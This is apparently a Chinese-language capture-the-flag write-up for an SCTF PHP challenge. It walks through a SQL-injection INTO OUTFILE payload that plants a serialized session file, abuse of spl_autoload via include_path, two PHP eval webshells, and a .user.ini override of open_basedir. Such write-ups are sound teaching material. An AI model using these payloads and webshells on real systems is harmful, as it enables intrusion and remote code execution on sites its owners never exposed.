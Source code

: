 在php.ini中有个很重要的设置：
```
include_path= ".:/tmp"
```
在本机环境下这里并没有tmp目录（忘记看题目的了。。。）
这样/tmp也会被**sql_autpload_register函数**搜索（错过了getshell的机会）

我们可以本地测试一下这个：

首先在session.php下写一个`$_SESSION['a']=new test()`
![](/img/sctf/hcakme1.png)
然后在/tmp下写一个test.php
`<?php echo 233?>`

```
root@VM-181-46-ubuntu:/home/wwwroot/default/test# php init.php 
233PHP Fatal error:  spl_autoload(): Class test could not be loaded in /home/wwwroot/default/test/session.php on line 63

```
虽然报错了，但是确实执行了，那么剩下就是session反序列化得问题了

我们在/tmp目录下构造一个webshell test.php
```
<?php eval($_GET['a'])?>
```
然后生成一个合理的session文件，类似于sess_26位随机数,向sess下写入我们想要的内容
```
http://hackme.sctf.xctf.org.cn/index.php?id=0/*!00000union*//*!00000select*/'a|O:4:"test":0:{}'/*123*/into/*123*/outfile'/tmp/sess_xxxxxxxxxxxxxxxxxxx' 
```
带着上面的session去访问main.php

getshell

这里firesun大神用了
```
<?php  
file_put_contents("/home/wwwroot/hackme/05d6a8025a7d0c0eee5f6d12a0a94cc9/shell.php",'<?php eval($_POST[1]);?>');  
```
像网站目录中写了一个webshell，想想应该要比我的方法更好，方便后续的操作

进去了发现由于.user.ini设置了
```
open_baseair = /home/wwwroot/hackme:/tmp/:/proc/
```
所以要想办法绕过了
我只知道两种，第一种是firesun大神使用的
通过在子目录设置`.user.ini`来覆盖设置

由于main.php、session.php、session.php在子目录05d6a8025a7d0c0eee5f6d12a0a94cc9/下，在05d6a8025a7d0c0eee5f6d12a0a94cc9/下写入一个`.user.ini`
```
open_basedir=/
```
然后等5分钟生效，然后shell不再受open_basedir限制，找找发现flag在wwwroot/flag_is_here下
